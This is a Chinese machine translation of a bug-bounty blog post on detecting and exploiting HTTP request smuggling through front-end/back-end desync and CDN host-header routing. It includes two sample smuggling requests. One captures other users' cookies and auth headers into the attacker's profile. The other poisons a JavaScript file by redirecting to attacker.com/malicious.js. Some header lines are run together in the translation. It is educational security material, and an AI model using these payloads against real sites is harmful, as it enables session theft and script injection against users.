

# 跨越边界:HTTP 请求的非法交易

> 原文：<https://infosecwriteups.com/crossing-the-borders-the-illegal-trade-of-http-requests-57da188520ca?source=collection_archive---------0----------------------->

**TL；博士，这篇博客文章将是一系列文章中的第一篇，这些文章将介绍一些关于发现和利用 http 请求走私漏洞的技巧和诀窍。**

这个攻击载体最近由 James Kettle (Albinowax)提出，在许多场合，他讨论了他能够用来攻击易受攻击的应用程序的不同技术，希望在这个系列中，我将介绍一些我在真实目标上测试时遇到的技术。



图片来自 Portswigger.net

实现请求走私是相当复杂的，因为对于易受攻击的系统来说，必须存在某些条件才能被利用，我将稍后详细介绍，但现在请记住，成功检测并不一定意味着有保证的利用。

正如 James 所解释的，这种攻击利用了系统的几个层(代理、负载平衡器……)之间的差异。前端和后端可能会以不同方式处理请求，一个系统可能会使用传输编码，而另一个系统会使用内容长度来处理请求，攻击者会简单地发送一个包含两个标头的操纵请求，第一个系统会按原样转发该请求，但第二个系统会认为它收到了两个不同的请求，并会等待请求结束，因此在此期间使用该应用程序的任何随机用户都会收到损坏/中毒的响应。

攻击分为两大类。CL 和 CL。TE，我不会讨论这两者之间的区别，但是请记住，这里讨论的技术可以应用于这两种情况。

第一步是检测漏洞，漏洞可能存在于单个路径上，而不存在于其他路径上，因此这一步包括简单地探测每个主机和这些主机上的每个单个路径，这是因为在现代 web 应用程序中，路由可以使用主机头或路径来执行。在此步骤中，建议使用带有有效参数的有效 POST 请求，但如果不可能，请使用 GET 请求。詹姆斯已经为此建立了一个可靠的工具，几乎没有误报，所以做扫描应该不会太难。在一些情况下，我能够通过更改我的 ip 来发现主机上的请求走私。这主要发生在公司使用 cloudflare 或 cloudfront 时，结果表明一个系统易受攻击，而其他系统不会。这意味着我必须找到正确的来源 ip 来利用此漏洞，因此您也可以尝试找到不同的来源 IP 并扫描使用它们的主机。

现在有趣的部分，利用，这里我想讨论 cdn 中一个非常常见的行为，它发生在测试主机头注入时，例如一个有两个子域 vuln.victim.io 和 api.victim.io 的公司，如果您尝试在 vuln.victim.io 上使用主机头 api.victim.io 进行主机头注入，您会看到 api.victim.io 的内容。这在一些博客服务上也有效，这种行为本身是无害的，但随着请求走私，它变得非常重要，这意味着如果一个子域上存在请求走私，它可能会允许攻击者以其他主机为目标

一个实际的例子是这样的

```
POST / HTTP/1.1
Host: vuln.victim.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 164
Connection: keep-alive
Transfer-Encoding: chunked9
q=exploit
0POST /personaldata HTTP/1.1
Host: api.victim.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Cookie: MY_COOKIES
Connection: closebio=VICTIM REQUEST APPENDED HERE
```

在这种情况下，我别无选择，只能使用 api 主机将数据发布到我的个人资料中，vuln.victim.io 上的任何用户请求都将被附加到我的请求中，系统将处理该请求并将整个请求(包括受害者 cookies、auth 头和 csrf 头)发布到我的个人资料中。

当试图滥用缓存和毒害 javascript 文件时，可以应用相同的逻辑，James 讨论了为了执行这样的攻击，可以使用目录重定向+主机头注入将任何请求重定向到外部 javascript 文件，但是这种技术在某些配置上不起作用，因此通过利用前面讨论的行为，可以使用在另一台主机上找到的开放重定向

```
POST /scripts/vendor.js HTTP/1.1
Host: vuln.victim.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 164
Connection: keep-alive
Transfer-Encoding: chunked9
q=exploit
0GET /?redir=https://attacker.com/malicious.js HTTP/1.1
Host: blog.victim.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Cookie: MY_COOKIES
Connection: closex=VICTIM REQUEST APPENDED HERE
```

在上面的例子中，blog.victim.io 上存在一个打开的重定向，但是 vuln.victim.io 上存在请求走私，这允许我将 javascript 文件定位到 vuln.victim.io 上。

每个案例和每个目标都是不同的，所以坚持下去，黑掉这个世界。

来源:

[](https://portswigger.net/web-security/request-smuggling) [## 什么是 HTTP 请求走私？教程和示例

### 在本节中，我们将解释 HTTP 请求走私攻击，并描述常见的请求走私漏洞…

portswigger.net](https://portswigger.net/web-security/request-smuggling) [](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) [## HTTP Desync 攻击:请求走私重生

### HTTP 请求传统上被视为孤立的、独立的实体。在本文中，我将探索遗忘…

portswigger.net](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) 

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)